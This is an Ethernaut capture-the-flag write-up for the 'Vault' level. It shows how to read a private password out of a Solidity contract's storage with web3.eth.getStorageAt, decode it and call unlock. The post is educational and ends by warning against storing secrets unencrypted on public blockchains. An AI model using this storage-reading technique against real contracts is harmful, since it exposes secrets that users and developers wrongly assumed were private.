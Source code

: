 +++
title = "Vault - Ethernaut"
date = "2022-01-08"
author = "Dimitris Vagiakakos"
+++
On this challenge, we have to unlock the vault to win the challenge.
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.11;

contract Vault {
  bool public locked;
  bytes32 private password;

  constructor(bytes32 _password) public {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}
```

First of all, we can see that we have 2 state variables. One of them is the locked variable which is public. That means that we can very easily see what it is inside the variable by typing:
```
await contract.locked()
```

Also, we have the private variable password. Using the console, we cannot just see what it is inside just easily. Therefore, we have 2 options to try in order to solve the problem.


* By brute forcing the password, until we find the right one and then unlock the vault. It's possible to happen, but there is a much easier way to achieve this.
* Somehow, to dump the password from the storage of the contract.

As we have already mentioned earlier, Ethereum is a public Blockchain. That means that everyone can see what exists inside of it. We know that password variable is uint private. In Ethereum from the Solidity Docs, we know that a private type access mean that a variable can be called only from the same smart-contract, not externally by using an another smart-contract or by calling contract.password() from console. As Ethereum is a public ledger, we can just query the smart-contract from it's storage.
Web3.js can help us achieving this, by typing in console:


```
var pwd // to create a variable 
web3.eth.getStorageAt(contract.address, 1,  function(err, result){pwd = result})
```

This command will return :
```
0x412076657279207374726f6e67207365637265742070617373776f7264203a29
```
That is the password in hexadecimal mode. We can very easily convert this hexadecimal in Ascii from our console by typing:

```
web3.utils.toAscii(pwd)
```
And this will return us:
```
A very strong secret password :)
```

As we have the hexadecimal version of the password, we can simply create a transaction in the function  unlock and the hexadecimal value as an input by typing:
```
contract.unlock("0x412076657279207374726f6e67207365637265742070617373776f7264203a29")
```
Now if we check the Boolean variable locked by typing "contract.locked()" we can see that it is unlocked. We pwned it.
To sum up, we should never insert data unencrypted in Blockchain networks, especially in public Blockchains, as everyone can see what it is inside.

---
If you want to learn more about Smart Contract Security, please check our paper and eCourses:
## Smart-Contract Security:


* [Smart Contract Security - Educational eLearning Series in Greek on YouTube - Click Here](https://www.youtube.com/playlist?list=PLZa7COjIxKWzLcMxI9cRNSzOtdR0xvXB7)
* 
* [Smart Contract Security - Educational eLearning Series in Greek on LBRY - Click Here](https://odysee.com/@TuxHouse:1/Ethereum-Hacking-Series-%28Greek%29:b?r=D1QgYeP81GoKPkW5T1jP96zxGA4GMfho&lid=b0b540e62d96ed2811b776519fc460617e4c40747)

